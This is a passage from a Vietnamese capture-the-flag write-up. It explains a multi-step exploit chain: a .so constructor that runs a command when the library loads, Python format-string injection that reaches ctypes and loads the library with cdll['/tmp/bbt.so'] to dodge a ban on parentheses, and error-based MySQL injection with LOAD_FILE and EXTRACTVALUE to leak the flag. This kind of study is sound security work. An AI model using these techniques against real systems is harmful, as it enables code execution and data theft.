- Kỹ thuật: Ở file exploit.c, gắn cờ `__attribute__((constructor))` trước hàm chứa mã độc. Cờ này là một lệnh ở tầng hệ điều hành, yêu cầu: "Cứ nạp file này vào RAM là phải chạy đoạn code này ngay lập tức, không cần đợi ai gọi". Mã độc này có nhiệm vụ chạy lệnh hệ thống đọc cờ và xuất ra file text.

### 4. Remote Code Execution (RCE) qua module ctypes và Dunder Method \_\_getitem__

- Vấn đề: Làm sao ép ứng dụng Python nạp cái file .so ở bước 3 vào RAM để nó tự kích hoạt?

- Kỹ thuật: Dùng Python Format String một lần nữa: {x.__init__.__globals__[ctypes]} để lấy module ctypes.

- Dùng object cdll kết hợp với ngoặc vuông [] (kích hoạt ngầm hàm __getitem__) để lách luật cấm ngoặc tròn () của hàm format. Mã hoàn chỉnh: ...cdll['/tmp/bbt.so']. Hệ điều hành nạp file .so lên bộ nhớ -> Mã độc chạy.

### 5. Error-based SQL Injection (Trích xuất dữ liệu / Data Exfiltration)

- Vấn đề: Mã độc đã chạy và lưu cờ vào file **/tmp/bbt**, nhưng không có docker để đọc file, cần server trả về flag?

- Kỹ thuật: Dùng hàm `LOAD_FILE()` của MySQL để đọc file cờ đó lên. Sau đó, nối thêm dấu ngã ~ (0x7e) vào đầu chuỗi cờ và nhét nó vào hàm phân tích XML EXTRACTVALUE(). Vì dấu ~ làm sai cấu trúc XML, database văng lỗi (crash) và trả luôn chuỗi lỗi (chính là nội dung cờ) ra ngoài màn hình web.

Một chuỗi đi từ lách luật Web -> Chọc ngoáy Database -> Ghi file Hệ điều hành -> Kích nổ ở tầng Memory -> Ép văng lỗi để lấy data.

> Disclaimer: Phần tổng hợp kĩ thuật này mình nhờ AI đọc PoC rồi gen ra các ý.